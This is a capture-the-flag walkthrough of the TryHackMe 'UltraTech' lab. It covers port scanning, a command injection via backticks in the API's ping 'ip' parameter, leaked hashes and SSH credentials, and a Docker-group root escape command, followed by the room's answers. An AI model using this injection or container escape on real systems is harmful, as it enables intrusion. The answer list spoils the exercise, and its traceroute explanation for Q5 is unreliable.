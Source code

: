 `Tryhackme  UltraTech`
--
By :- Unknownperson
-- 

## Port Scanning
Open 10.10.75.242:21
Open 10.10.75.242:22
Open 10.10.75.242:8081
Open 10.10.75.242:31331

## Full Nmap Scanning
PORT     STATE    SERVICE     VERSION
21/tcp   open     ftp         vsftpd 3.0.3
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
1099/tcp filtered rmiregistry
5544/tcp filtered unknown
8081/tcp open     http        Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
|
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
|_http-server-header: Apache/2.4.29 (Ubuntu)

-> Ftp Port is open but anonymous login is not set

Q1. Which software is using the port 8081? -> Node.js
Q2. Which other non-standard port is used? -> 31331
Q3. Which software using this port? -> Apache
Q4. Which GNU/Linux distribution seems to be used? -> Ubuntu
Q5. The software using the port 8081 is a REST api, how many of its routes are used by the web application? -> 2 (By using command [traceroute [IP] ])
--

## Directory Busting -> Using Gobuster
/.php                 (Status: 403) [Size: 294]
/images               (Status: 301) [Size: 322] [--> http://10.10.75.242:31331/images/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.75.242:31331/css/]
/js                   (Status: 301) [Size: 318] [--> http://10.10.75.242:31331/js/]
/javascript           (Status: 301) [Size: 326] [--> http://10.10.75.242:31331/javascript/]
/robots.txt  

> Robots.txt contain :- Sitemap: /utech_sitemap.txt
> And when we Redirect to utech_sitemap.txt it contain info like :- /
/index.html
/what.html
/partners.html


-> /partners.html contain Login 
But Login panel not work in sqlinjection or any type of default Password

-> so we check Source code and we get Line like 
## const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
we have port 8081 where API is working 
-> http://10.10.75.242:8081/ping?ip=`ls` :- this will help in injecting command 


*lets Take First Shell by Doing this *
-> First we get That utech.db.sqlite File Read which give us
ping: ) r00tf357a0c52799563c7c7b76c1e7543a32)admin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded

`
SSH Password:- r00t:n100906
`



Q6. There is a database lying around, what is its filename? :- utech.db.sqlite
Q7. What is the first user's password hash? :- 
--

## Privillage Escalation

> In User R00t Id show us:- uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)

> Which Mean stragth forword Docker Escalation let Get root Shell with Below Command
## `docker run -v /:/mnt --rm -it bash chroot /mnt sh` 
-> In this Docker image name was 'bash' 
-> we get the Rsa key access 

Q8.What are the first 9 characters of the root user's private SSH key? :- MIIEogIBA	
--

## Wooow Again We crecked the Machine
